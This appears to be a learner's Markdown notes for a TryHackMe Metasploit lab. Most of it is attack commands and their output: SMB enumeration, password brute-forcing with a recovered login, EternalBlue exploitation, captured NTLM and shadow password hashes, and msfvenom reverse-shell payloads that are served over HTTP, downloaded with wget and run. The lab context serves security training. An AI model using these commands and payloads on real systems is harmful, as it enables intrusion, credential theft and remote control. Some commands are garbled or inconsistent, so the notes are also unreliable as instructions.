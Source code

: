 #Metasploit 

- https://tryhackme.com/room/metasploitexploitation


/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt

## Scanning

```

msfconsole

search portscan
use 5
show options
set rhosts 10.10.78.158

scanner/discovery/udp_sweep

search smb
	101  auxiliary/scanner/smb/smb_enumshares 

use 101
run



search smb
use 101
search portscanner
use 0
setg rhosts 10.10.78.158
exploit

nmap -sS 10.10.78.158

5 open ports


search netbios
use 2
exploit
	acme it support


nmap -sS -sV 10.10.78.158        # search http_version
8000/tcp  WebFS httpd 2.21


penny user SMB password smb_login

search smb_login
use 0
show options


setg pass_file /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
show options

set db_all_cred true
setg SMBUser penny
exploit

penny : leo1234

```

## Database


```
systemctl start postgresql

msfdb init

msfconsole
db_status

workspace -a tryhackme
workspace -h

db_nmap -sV -p- 10.10.78.158

hosts
hosts -h
services -h

use auxiliary/scanner/smb/smb_ms17_010
hosts -R
show options
run


services -S netbios

```

- HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
- FTP: Could allow anonymous login and provide access to interesting files. 
- SMB: Could be vulnerable to SMB exploits like MS17-010
- SSH: Could have default or easy to guess credentials
- RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.


## Vuln Scan

```

use auxiliary/scanner/vnc/
use 2
info


search smtp
use 23
info 
Campbell Murray

```


## Exploitation

```

search
info
exploit

exploit(windows/smb/ms17_010_eternalblue) > show payloads

set payload 2
show options
set rhost 10.10.15.0 
show options
exploit

search -f flag.txt

cd \Users\
dir
cd \Jon\Documents
type flag.txt
THM-5455554845



NTLM hash for user 'pirate'

8ce9a3ebd1647fcc5e04025019f4b975


```


## msfvenom

```

msfvenom -l payloads

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64

msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

/*<?php /**/

use exploit/multi/handler
run



---- VM
sudo su
murphy : 1q2w3e4r

-- terminal
ssh murphy@10.10.102.190
sudo su

-- new tab
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

python3 -m http.server 9000

browser http://10.10.218.3:9000    # shows files

terminal
wget http://10.10.210.3:9000/rev_shell.elf

msfconsole
use exploit/multi/handler


set payload linux/x86/meterpreter/reverse_tcp

set lhost 10.10.210.3
set lport 7777
show options
run


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.218.3 LPORT=1234 -f elf > rev_shell2.elf

python3 -m http.server 9000

wget http://10.10.210.3:9000/rev_shell2.elf


msfconsole
use exploit/multi/handler

set msfvenom -p linux/x86/meterpreter/reverse_tcp

set lhost 10.10.210.3
set lport 1234
show options
run


chmod 777 rev_shell2.elf
./rev_shell2.elf


claire : $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0




```













